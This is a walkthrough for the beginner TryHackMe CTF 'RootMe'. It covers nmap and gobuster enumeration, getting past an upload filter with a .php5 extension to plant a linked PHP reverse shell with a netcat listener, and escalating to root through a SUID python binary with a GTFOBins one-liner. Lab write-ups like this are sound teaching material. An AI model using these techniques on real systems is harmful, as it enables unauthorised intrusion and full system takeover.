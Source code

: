 # RootMe - THM 
**Description** | A ctf for beginners, can you root me?
 --    | --
**Difficulty** | easy
## nmap scan
```bash
$ nmap -sV  10.10.123.179
  Nmap scan report for 10.10.123.179
  Host is up (0.11s latency).
  Not shown: 998 closed tcp ports (reset)
  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
  80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

> **Notes:** SSH and HTTP are open. I started with the web service because it often provides useful attack paths.


## HTTP
Visit: `http://10.10.123.179`
![alt txet](https://github.com/user-attachments/assets/79162dad-117b-4ab2-950d-111f4a36f747)

## Gobuster

Let's enumerate common directories:
```bash
$ gobuster dir -u http://10.10.123.179 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.                    (Status: 200) [Size: 616]
/.hta                 (Status: 403) [Size: 276]
/.hta.                (Status: 403) [Size: 276]
/.htaccess.           (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/.htaccess.txt        (Status: 403) [Size: 276]
/.hta.txt             (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/.htpasswd.txt        (Status: 403) [Size: 276]
/.htpasswd.           (Status: 403) [Size: 276]
/css                  (Status: 301) [Size: 308] [--> http://10.10.123.179/css/]
/index.php            (Status: 200) [Size: 616]
/js                   (Status: 301) [Size: 307] [--> http://10.10.123.179/js/]
/panel                (Status: 301) [Size: 310] [--> http://10.10.123.179/panel/]
/server-status        (Status: 403) [Size: 276]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.123.179/uploads/]
```
> Notes: /panel and /uploads look interesting
## /panel Directory

![alt text](https://github.com/user-attachments/assets/4016356e-ea7a-46cd-beff-98b129749aa2)

### We can uplosd files here. Let's upload a web-shell to get a shell.

you can use this php reverse shell [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
### first, i tried uploading a test file with .php extension to see if it would be accepted. Unfortunately, it was rejected.
![alt text](https://github.com/user-attachments/assets/7e1f6514-0c75-4a63-bf98-11c06715efe3)

 ### After that, I tried changing the extension to .php5, and fortunately, that was successful.
![alt text](https://github.com/user-attachments/assets/c2960494-7412-4211-a981-891a5846ead8)

## /uploads Directory

![alt text](https://github.com/user-attachments/assets/5fa06fee-10f1-4e75-86c9-ad7e2766f07e)

Start a netcat listener from your attack machine.

```bash
$ nc -lvnp 1234
```
You have to visit the PHP URL in order to initiate the connection.
![alt text](https://github.com/user-attachments/assets/514e04dc-e33f-4758-883a-887dcb79be50)

## User flag

know let's search for user.txt flag
```bash
$ find -type f -name 'user.txt' 2>/def/null
/var/www/user.txt
```
![alt text](https://github.com/user-attachments/assets/57d9b7d5-6d40-4a0c-9c89-402657eceea6)

## PRIVILEGE ESCALATION
First we need to search for SUID permissions to escalate our privileges.

```bash
$ find -type f -perm -4000 2>/dev/null
```
![alt text](https://github.com/user-attachments/assets/4204c297-7d2f-4ba9-b9b8-8c616c4c5f2f)

we find the weird file. know we go to [GTFobins](https://gtfobins.github.io/gtfobins/python/#suid) and look for methods to exploit SUID in Python

```bash
bash-5.0$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# id
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
# whoami
whoami
root
```
![alt text](https://github.com/user-attachments/assets/ea1cf006-5fde-4b50-8faa-74df105dec72)

